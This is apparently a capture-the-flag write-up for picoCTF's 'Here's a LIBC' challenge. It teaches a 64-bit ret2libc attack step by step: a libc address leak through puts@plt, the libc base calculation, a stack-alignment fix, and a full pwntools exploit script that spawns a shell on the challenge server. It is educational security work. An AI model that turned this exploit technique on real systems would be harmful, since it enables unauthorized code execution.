







# ROP-Based ret2libc on 64-bit Systems

>**Threat Model:** The attacker can trigger a stack-based buffer overflow through crafted input, gaining control over the return address.


---

## Tools used
 Python 3, Pwntools, GDB + GEF, Ghidra, pwninit, Docker, checksec, patchelf, readelf, strings, ldd, subl   

> **Note**: All the analysis and exploitation tasks were performed inside a **Debian 12 virtual machine**, running on **VirtualBox**.

---

## Attack Summary

This attack uses stack overflow to hijack control flow and reuse libc functions instead of injecting shellcode.

### Protections bypassed

- **ASLR (Address Space Layout Randomization)**: bypassed by leaking a libc address and calculating function locations using known **offsets**.
- **NX (Non-Executable Stack)**: bypassed by **reusing existing code** in the binary and libc.
- **Stack Smashing**: used to overflow the buffer and overwrite the return address (`RIP`) with controlled values.

### Payloads

- **Payload 1**: Leaks the real address of `setbuf` by calling `puts(setbuf@got)`, which goes through `puts@plt` → `puts@libc`. Then returns to main.
- **Payload 2**: Calls `system("/bin/sh")` using computed libc addresses. Includes `pop rdi` gadget and `ret` for stack alignment.


<br>
*Figure 1: Simplified stack layout.*

> The call to `puts(setbuf@got)` jumps through the PLT and ends up calling the real `puts` inside libc. That function then **reads the pointer stored in `setbuf@got`**, which contains the **actual address of `setbuf` in libc**, and prints it.
---

## Step-by-step Description:
### 1. Environment Setup:

#### Download files

Challenge binary 'vuln' and libc were provided from picoCTF 2021:

```bash
wget https://artifacts.picoctf.net/c/179/file_name
```

#### Segfault on execution

```bash
./vuln # Segmentation fault (core dumped)
```

Caused by incompatible `libc` version.

#### Identifying libc version

* `strings libc.so.6 | grep -i version` → `GLIBC 2.27`
* `ldd vuln` + `strings /lib64/ld-linux-x86-64.so.2 | grep version` → host libc `2.36`


#### Matching the linker

**Method 1 — Docker**

```bash
docker run -it ubuntu:19.04  # ld-2.29.so
```
It works but we have to repeat the process with guess-and-check.

**Method 2 — pwninit (preferred)**

pwninit is a tool that automates the initial setup for binary exploitation challenges. It detects the binary and its associated libc and downloads the correct dynamic linker (ld). 

```bash
 /opt/pwninit/pwninit 
 ```

→ Fetches `ld-2.27.so` automatically.

<br>
*Figure 2: Fetching the linker with pwninit.*

#### Running the binary

```bash
patchelf --set-interpreter ./ld-2.27.so ./vuln
./vuln
```
To run it without specifying the linker every time.

---

### 2. Protections of the binary

```bash
checksec ./vuln
```
  - **Partial RELRO**: The GOT is writable, making GOT overwrite attacks possible.
  - **No Stack Canary**: The binary lacks stack protection, allowing buffer overflows.
  - **NX Enabled**: The stack is non-executable; direct shellcode injection won't work 
  - **No PIE**: The binary loads at a fixed address (`0x400000`), ASLR won't affect the binary
  - **Custom RUNPATH**: The binary uses a local `libc.so.6`, which we can control 
- **Not Stripped**: Symbols are preserved, making reverse engineering and identifying functions easier

---

### 3. Input parsing in the vulnerable program
I opened the vuln binary using Ghidra, an open-source reverse engineering tool. Ghidra lets me inspect the binary at both the C pseudo-code and assembly levels, which is essential for calculating offsets and identifying potential vulnerabilities during exploitation.

Inside the main function, I found a call to a function named do_stuff. Upon analyzing do_stuff, I discovered a critical scanf call that can lead to a buffer overflow:

The program uses two `scanf` calls to parse user input:

```c
char allocated_buffer[112];
undefined local_89;
[...]
__isoc99_scanf("%[^n]", allocated_buffer);
__isoc99_scanf("%c", &local_89);
```

If the user inputs:

```
AAAA...AAAA<112 chars total>\n
```

* The first `scanf` stores everything before the newline into `allocated_buffer` (can cause a buffer overflow)
* The second `scanf` reads the `\n` and stores it in `local_89`.

#### Debugging the vulnerability with GDB

To analyze the overflow, I opened the vulnerable program with GDB:

```bash
gdb ./vuln
r
```

Then, I input a long sequence of `A`'s (more than 112 characters) to overflow the buffer.

####  How Registers Work in 64-bit Systems

| Register | Purpose |
|----------|---------|
| `RIP`    | **Instruction Pointer** – holds the address of the next instruction to execute. |
| `RSP`    | **Stack Pointer** – points to the top of the stack. |
| `RBP`    | **Base Pointer** – used to reference local variables on the stack. |
| `RAX`    | **Return value** of functions. |
| `RDI`    | **First** function argument. |
| `RSI`    | Second argument. |
| `RDX`    | Third argument. |
| `RCX`, `R8`, `R9` | Fourth, fifth, and sixth arguments respectively. |

These follow the **System V AMD64 ABI** calling convention, which is standard on Linux systems. 

#### Why "A" doesn't appear in RIP?

After the crash, examining the registers shows that the `RIP` does **not** contain the `A`'s. This is expected because in 64-bit systems:

> The `ret` instruction doesn’t directly use the RIP. Instead, it pops an address from the **stack** and jumps to it.

So if the stack contains a value like `0x4141414141414141` (from our input), the CPU tries to jump to that address. Since it's invalid, the program **crashes before RIP is updated**.


<br>
*Figure 3: gdb debugging after overflow.*

#### Finding the exact offset with cyclic pattern:

Now, let’s figure out how many bytes it takes to reach the return address. GEF makes this easy:

```bash
pattern create 200
```

This creates a 200-byte cyclic pattern (De Bruijn sequence) where every 8-byte sequence is unique.

In Ghidra, we see that the buffer is 112 bytes, but **remember**:

* After the buffer, the stack may contain saved RBP, stack canary (if any), and finally the return address.
* So we need to overflow beyond just 112 bytes.

A good trick is to round up — in this case, we try 200 bytes.

After crashing the program with the pattern, use:

```bash
pattern offset $rsp # Offset found at 136
```

This means we need to send 136 bytes to reach RIP.

>**Note**: When the program crashes, you look at the `$rsp` register, which points to the stack where the return address is stored. If `$rsp` contains 8 bytes from your pattern, you can say: "These 8 bytes appear at position X in the pattern."
So, X is the number of bytes you wrote before reaching the return address.


---

### 4.  Start writing the exploit

Open the exploit script with:

```bash
subl attempt.py
```

Start coding payload:

```python
#!/usr/bin/env python3
from pwn import *  # Easy and useful for exploit development

p = process("./vuln")  # Launch the vulnerable binary

offset = 136
junk = b"A" * offset  # Padding to reach the return address
```
---

### 5. Leaking a libc address using a ROP Chain


We enable ASLR (Address Space Layout Randomization) to add memory randomness:

```bash
gef➤  aslr on
```

Even with ASLR enabled, **function offsets remain the same**. If we leak the address of one function, we can calculate the others relative to it.


#### How to leak a libc address
To leak a libc address, use:

- **GOT** (Global Offset Table): stores function addresses (writable with partial RELRO)

- **PLT** (Procedure Linkage Table): jumps to GOT entries (executable)

.plt → .got.plt → libc

Example: setbuf
→ jumps to .plt → reads .got.plt 
→ if unresolved, resolves it; else, jumps to libc function


#### ROP (Return-Oriented Programming)

To print the libc address, we need to chain instructions (gadgets) ending in `ret` to build a fake call:

1. Find a ROP gadget to control `RDI` (the first argument of a function in x86\_64):

```bash
ROPgadget --binary vuln | grep ": pop" 
 # pop_rdi = 0X400913
```

<br>
*Figure 4: Searching for ROPgadgets.*

2. Using **Ghidra**, I was able to identify the following important addresses needed for constructing the ROP chain:

```bash
setbuf_at_got = 0x601038
puts_at_plt = 0x400540
back_to_main = 0x400771
```

<br>
*Figure 5: PLT address of puts() on Ghidra.*

#### ROP Chain:

```python
payload = [
    junk,  # Overflow buffer with junk to reach return address

    # Step 1: pop the address into rdi (1st function argument in 64-bit calling convention)
    p64(pop_rdi),           # Gadget: pop rdi ; ret
    p64(setbuf_at_got),     # Argument to puts: the address of setbuf in GOT

    # Step 2: Call puts@plt to print the real address of setbuf from GOT
    p64(puts_at_plt),       

    # Step 3: Return to main to restart the program and allow sending a second payload
    p64(back_to_main),      
]

# Send the payload to the program
payload = b"".join(payload)
p.sendline(payload)
```

> **Note**: Pack values with p64() in the payload because I'm writing directly to the program's memory (on the stack), and the CPU expects them in 64-bit binary format. p64() converts a number (e.g., 0x400540) into an 8-byte sequence in little-endian format.
---

### 6. Taking advantage of the memory leak

#### Receiving the leaked address

To skip over the first initial output lines and reach the actual leaked value, we add calls to `p.recvline()`:

```python
p.recvline()  # skip "WeLcOmE tO My EcHo SeRvEr!"
p.recvline()  # skip input "AAAAAAAAAAAAA"
leak = p.recvline()
log.info(f"{hex(leak)=}")  # use log.info() for a clear output
```
<br>
*Figure 6: Leak variable stored in little-endian format.*


#### Unpacking the leak

We need to convert the string using `u64()` that expects exactly 8 bytes. If the string is shorter (e.g., 6 bytes), we pad it with null bytes using `.ljust(8, b"\x00")`.
 `strip()` removes the newline at the end of the stack.

```python
leak = u64(leak.strip().ljust(8, b"\x00"))
```
### 7. Finding the libc base address

We use readelf to extract function offsets from the libc binary, which allows us to calculate their real addresses in memory once we know the libc base address.

```bash
readelf -s ./libc.so.6 | grep setbuf 
```

Then compute:

```python
base_address_of_libc = leak - setbuf_offset
```

#### Find offsets for `system` and `/bin/sh`

```bash
readelf -s ./libc.so.6 | grep system
strings -tx libc.so.6 | grep /bin/sh
```

Then compute their actual addresses:

```python
system_address = base_address_of_libc + system_offset
bin_sh_address = base_address_of_libc + bin_sh_offset
```

#### Final ROP chain to get shell

```python
second_payload = [
    junk,
    p64(pop_rdi),
    p64(bin_sh_address),      # First argument to system()
    p64(system_address),      # Call system("/bin/sh")
]

second_payload = b"".join(second_payload)
p.sendline(second_payload)
p.interactive()              # Get interactive shell
```
---

### 8. GDB debugging 

```python
p = process("./vuln")
gdb.attach(p)
```
so when we run the script it will open automatically the debugger.


1. **Disassemble the function**:

  ```bash
   disassemble do_stuff
   ```
   Take the **last `ret` instruction**. In this case, it’s at address `0x400770`. 


2. **Set a breakpoint at the return**:

  ```bash
   b *0x400770
   ```

3. **Run the program** and continue:

 ```bash
   c
   ```

4. **Step through instructions**:

  ```bash
   si
   ```

<br>
*Figure 7: Dynamic debugging session.*

At this point, `/bin/sh` is on the stack, but the exploit **fails to spawn a shell**. Why?


#### The problem: Stack Alignment

On 64-bit Linux systems, the **System V AMD64 ABI** requires:

> The stack pointer (`%rsp`) must be 16-byte aligned before any function call.

If `%rsp` is not aligned (e.g., the last digit of its address is not `0`), calling `system()` (or other libc functions) may cause a **segmentation fault (SIGSEGV)**.

#### Fix: Insert a `ret` gadget

Find a simple `ret` instruction using ROPgadget:

```bash
ROPgadget --binary vuln | grep ": ret"
```

Suppose it returns `0x40052e`, then we update the payload like this:

```python
ret_instruction = 0x40052e  # Single ret for alignment

second_payload = [
    junk,
    p64(pop_rdi),             # 8 bytes
    p64(bin_sh_address),      # 8 bytes

     # At this point, we've added 136 + 8 + 8 = 152 bytes total,
     # so %rsp ends in ...f8 (not aligned to 16 bytes).
   
    p64(ret_instruction),     # it pops an extra 8 bytes
                              # moving %rsp from ...f8 to ...00 (properly aligned)
    p64(system_address),
]
```

#### Results

Now, with proper stack alignment, the call to `system("/bin/sh")` works as expected, and you get a shell! 

<br>
*Figure 8: Interactive shell.*

---- 

### 9. Optional
You can choose to connect to the remote challenge server instead of running it locally. In our case of picoCTF challenge:

```bash
p = remote("mercury.picoctf.net", 62289) 
```
---

## Full exploit script

```python
#!/usr/bin/env python3

from pwn import *  

# Local debugging
# p = process("./vuln")
# gdb.attach(p)

# Remote connection for CTF challenge
p = remote("mercury.picoctf.net", 62289)

offset = 136
junk = b"A" * offset  # Padding to overflow up to return address

"""
Plan of attack:
* Leak the address of setbuf using puts
* Use ROP to control rdi and pass setbuf@got as argument to puts
* Return to main to allow a second payload
* Calculate base address of libc
* Build second payload with system("/bin/sh")
"""

# ROP gadgets and addresses (from Ghidra or ROPgadget)
pop_rdi = 0x400913
setbuf_at_got = 0x601028
puts_at_plt = 0x400540
back_to_main = 0x400771

# First payload: leak setbuf address
payload = [
    junk,
    p64(pop_rdi),
    p64(setbuf_at_got),
    p64(puts_at_plt),
    p64(back_to_main),
]

payload = b"".join(payload)
p.sendline(payload)

# Skip irrelevant lines and grab the leak
p.recvline()
p.recvline()
leak = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"{hex(leak)=}")

# Calculate libc base
setbuf_offset = 0x88540
base_address_of_libc = leak - setbuf_offset
log.info(f"{hex(base_address_of_libc)=}")

# Calculate addresses of system() and "/bin/sh"
system_offset = 0x4F4E0
system_address = base_address_of_libc + system_offset

bin_sh_offset = 0x1B40FA
bin_sh_address = base_address_of_libc + bin_sh_offset

# For stack alignment on x64
ret_instruction = 0x40052E

# Second payload: call system("/bin/sh")
second_payload = [
    junk,
    p64(pop_rdi),
    p64(bin_sh_address),
    p64(ret_instruction),
    p64(system_address),
]

second_payload = b"".join(second_payload)
p.sendline(second_payload)

# Get interactive shell
p.interactive()
```

---

## References and sources

* [PicoCTF: Here's a LIBC](https://play.picoctf.org/practice/challenge/179?category=6&difficulty=3&originalEvent=34&page=1&search=)
*  [YouTube: Binary exploitation with ret2libc](https://www.youtube.com/watch?v=tMN5N5oid2c&t=580s)
* [Wikipedia: Return-to-libc attack](https://en.wikipedia.org/wiki/Return-to-libc_attack)
* [iRed Team - ret2libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)
* [System Overlord - GOT and PLT for pwning](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
*  [pwninit - auto-patch binaries](https://github.com/io12/pwninit)
*  [Understanding x86 Assembly](https://tirkarp.medium.com/understanding-x86-assembly-5d7d637efb5)
* [Wikipedia: x86 calling conventions](https://en.wikipedia.org/wiki/X86_calling_conventions)
* [pwninit (GitHub)](https://github.com/io12/pwninit)

